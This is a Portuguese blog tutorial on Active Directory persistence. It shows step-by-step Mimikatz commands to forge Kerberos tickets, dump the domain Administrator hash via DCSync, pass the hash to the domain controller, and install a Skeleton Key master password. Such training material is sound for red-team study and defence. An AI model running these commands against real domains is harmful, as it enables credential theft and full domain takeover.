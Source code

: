 ```yaml
---
title: "Active Directory - Persistência no Domínio"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia.png)

# Considerações Iniciais

Aqui vamos abordar duas técnicas muito utilizadas quando se fala de persistência em ambientes de Active Directory, o ataque de `DCSync` e o `Skeleton Key`

É importante notar que devemos ter acesso do Domain Controller pra realizar esses ataques, uma vez que estão atrelados à pós-exploração.

## DCSYnc

Com o ataque de DCSync vamos ter acessso ao hash do Administrator da DC e consequentemetne a máquina através do PTH

A ideia é parecida com a do Constrained Delegation, só que vamos gerar tickets para o LDAP e através desse ticket gerado pegar o hash do administrator!

Geramos o ticket para LDAP e injetamos ele

```
tgt::ask /user:dbservice /domain:DOMÍNIO /ntlm:HASH_DO_DBSERVICE /ticket:dbservice.kirbi
tgs::s4u /tgt:TGT_dbservice@XXXX_krbtgt~XXXX@XXXX.kirbi /user:Administrator@XXXX /service:time/XXXXX.local|ldap/XXXX.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@XXXX@XXXX_ldap~XXXX@XXXX_ALT.kirbi"'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia1.png)

Agora executamos o ataque de DCSync e extraimos o hash do administrator

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:usfun\Administrator"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia2.png)

Bom, com o hash fica fácil de fazermos um PTH e ter acesso ao DC

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:XXXXXX /ntlm:hash_administrator_dc /run:powershell.exe"'
Enter-PSSession -ComputerName dc
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia3.png)

Esse foi o ataque de `DCSync`, a partir do Constrained delegation conseguimos gerar tickets para o LDAP e sendo assim extrair o hash ntlm do administrator do DC!

## Skeleton Key

O próximo ataque é chamado de `Skeleton Key`, ele tem esse nome por que vai nos permitir acessar qualquer máquina do domínio com uma senha mestre, a partir do momento que tomamos o controle do DC.

Note que aqui é necessário já estar dentro da máquina, então executando esse ataque após um DCSync, por exemplo

Após ter tomado o controle do DC, com um shell reverso mesmo.

"Baixamos" o mimikatz para a máquina `TEM QUE SER O EXECUTÁVEL` e executamos o ataque

```
privilege::debug
misc::skeleton
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/esc.png)

Pronto! Feito! Agora acessamos qualquer máquina desse domínio com a credencial `mimikatz`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/esc1.png)

É importante ressaltar que esse ataque só pode ser feito uma vez, então caso quando você tente fazer dê erro, pode ser que alguém já tenha realizado nele no domínio.